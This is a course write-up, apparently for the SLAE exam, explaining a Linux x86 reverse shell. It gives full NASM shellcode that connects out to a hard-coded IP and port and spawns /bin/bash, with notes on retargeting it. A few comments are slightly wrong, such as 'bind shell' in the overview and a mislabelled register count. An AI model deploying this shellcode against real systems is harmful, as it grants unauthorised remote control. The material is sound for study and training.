 ```yaml
---
layout: post
title: SLAE Exercise 2 - Reverse Shell
subtitle: Linux x86 Reverse Shell
tags: [SLAE]
---
```


**Overview**
The second task of the SLAE exam required a bind shell to be written. The requirements for this were as follows:

- Reverse connects to configured IP and Port
- Execs shell on succesful connection
- IP and Port should be easily configurable

**Requirements**

To determine the requirements for this exercise it needs to be understood what a reverse shell is. 

*What is a reverse shell?* 
A reverse shell connects back to the listening attacker's system, presenting that connection with a shell to the target system. 

*So what is needed from a reverse shell?* 
As per the requirements, it needs to reverse connect to a configured IP address and port and execute a shell on a successful connection. 

Due to the similarities between this and a bind shell, no higher level code will need to be analysed to determine what to do. The main difference between the two shells is that with a bind shell the system is awaiting an inbound connection and with a reverse shell the system is actively connecting outbound. Let's take a look at the socket calls that were used for the bind shell:

- Socket
- Bind
- Listen
- Accept
	
As can be seen here, for the bind shell a socket was created, it was bound to a port then set to listen for an incoming connection and will ultimately accept that connection. For a reverse shell the socket doesn't need to do any of the socketcall syscalls after creating the socket, instead it needs to use the 'connect' socketcall to connect outbound to  the waiting attackers machine. Based on this, the syscalls that are required for the reverse shell will be:

- socket (socketcall) - to create a socket
- connect (socketcall) - to use the previously created socket to connect outbound
- dup2 - To duplicate file descriptors allowing the connection to effectively be 'piped'
- execve - To execute /bin/bash, presenting it to the socket connection

The majority of this shellcode has been heavily explained within exercise 1. The exception being the connect socketcall. From the man pages for connect - 'man 2 connect', the structure required can be seen as below:

```
	int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
```

Therefore values have to be pushed to the stack to satisfy these requirements to be placed into ecx. What is needed it:

1. The File Descriptor returned from the socket (edx)
2. The sockaddr structure, found in 'man 7 ip'
3. The addrlen, which will use the stack pointer

Based on the code written for the reverse shell [here](https://github.com/14Deep/SLAE/tree/master/Exercise%202), the stack has been visualised which should clear up what will be where on the stack when the pointer is pushed to ecx. The stack would appear as below:

	Addr	Value	  Description
  
	0x6	  Edx	    FD from socketcall
	0x5	  *0x3	  Pointer to location 0x3
	0x4	  0x10	  Addrlen set to 16 bytes
	0x3	  0x2	    2 for IF_INET
	0x2	  0x4d01	The port required (333)
	0x1	  0xec01	IP address
	0x0	  0xa8c0	IP address

The code that has been written can be seen below:

```
; Filename: reverse.nasm
; Author:   Jake
; Website:  http://github.com/14deep
; Purpose:  Reverse shell shellcode for Linux x86 for the SLAE course


global _start			

section .text
_start:

    	;Clearing the registers
    	xor eax, eax
    	xor ebx, ebx
	    xor ecx, ecx
    	xor edx, edx
    	xor esi, esi

	    ;Socket Calls
        ;In reverse order, pushing each value to the stack:

	    ;Socket - creating the socket
	    push eax     ; Pushing 0 for the Protocol parameter required
    	push 0x1     ; Pushing 1 for the Type (SOCK_STREAM) parameter required
	    push 0x2     ; Pushing 2 for the Domain (IF_INET) parameter required
	
	    mov al, 0x66 ; Adding syscall for socketcall() to eax
	    mov bl, 0x1  ; 0x1 is added to bx for the socketcall parameter 'socket'

	    	     ; At this point, eax is set to 0x66 for the socketcall
		     ; syscall, ebx is set to 0x1 for the socket parameter
		     ; and ecx will contain the values that were pushed to 
		     ; the stack. 

	     mov ecx, esp ; Moving the pointer to the stack into ecx for the final parameters

    	int 0x80     ; Interupt to call the syscall
	    mov edx, eax ; Moving the File Descriptor return value to edx


    	;Connect - Connect outbound
    	mov al, 0x66 ; For Socketcall
    	mov bl, 0x3  ; For Connect
    
    	;need to push values to the stack to satisfy the following:
    	;int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
    	; What is needed is:
    	; 1. The File Descriptor returned from the socket (edx)
    	; 2. The sockaddr structure, found in 'man 7 ip'
    	; 3. The addrlen, this will use the stack pointer

    	;What the stack would be like:
    	;
	    ;0x6 edx	-FD from socket call
    	;0x5 *0x3	-Pointer to 0x3
    	;0x4 0x10	-addrlen set to 16 bytes
	    ;0x3 0x02	-2 IF_INET
	    ;0x2 0x4d01	-The port (333)
	    ;0x1 0xec01	-IP address dword
	    ;0x0 0xa8c0	-IP address dword
	    ;
	    ;ecx contains pointer to the struct -- 0x3
	    ;ecx contains 0x6


      	;sockaddr structure
	      ;           struct sockaddr_in {
        ;      sa_family_t    sin_family; /* address family: AF_INET */
        ;      in_port_t      sin_port;   /* port in network byte order */
        ;       struct in_addr sin_addr;   /* internet address */
        ;   };



	    push dword 0xec01a8c0 ; Bytes in reverse order (endianness) c0(192).a8(168).01(1).ec(236)
	    push word 0x4d01      ; The port to use, in this case 333 - 0x014d
	    push word 0x2	      ; Always 2 for IF_INET
	
	    ;addrlen
	    mov ecx, esp ; Moving the stack pointer to ecx to point to sockaddr structure dynamically
	    push 0x10    ; Push addrlen to the stack, of the structure below. This is 16 bytes


	    push ecx     ; The stack pointer which is pointing to the sockaddr struct pushed earlier
    	push edx     ; File Descriptor from socket call to satisfy (1.)
	
	    mov ecx, esp ; The previous value of ecx was pushed to the stack a few instructions before, this updates
		               ; ecx with the current stack pointer to the values previously pushed to the stack. 

	    int 0x80     ; Interupt to call the syscall



    	;dup2 - duplicate the file descriptor to redirect the incoming connection 
	    ;Note - this could be looped if required

	    mov al, 0x3f  ; Syscall for dup2
	    mov ebx, edx  ; Moving the old FD into ebx
	    mov ecx, esi  ; Moving 0 into ecx for 'stdin'
	    int 0x80      ; Interupt to call the syscall

	    mov al, 0x3f
   	  inc ecx       ; Increment ecx so it is now 2
    	int 0x80      ; Interupt to call the syscall

   	  mov al, 0x3f
    	inc ecx       ; Increment ecx so it is now 2
    	int 0x80      ; Interupt to call the syscall
	


   	;execve - execute '/bin/bash' to provide a shell

    	xor eax, eax  ; Clearing eax
    	push eax      ; Pushing 0 to the stack

   	; push////bin/bash (12), could be shortened to //bin/sh (8)
    	push 0x68736162
   	  push 0x2f6e6962
    	push 0x2f2f2f2f

    	mov ebx, esp ; Move stack pointer pointing to the above to ebx as a parameter (filename)
	
	    xor ecx, ecx ; Null pointer for ecx argv
	    xor edx, edx ; Null pointer for edx envp

    	mov al, 0xb   ; Moving 11 to eax for execve syscall
    	int 0x80      ; Interupt to call the syscall
```

The following should be changed in order to change the IP address connected to and the port:
```
	Push dword 0xec01a8c0
	Push word 0x4d01
```




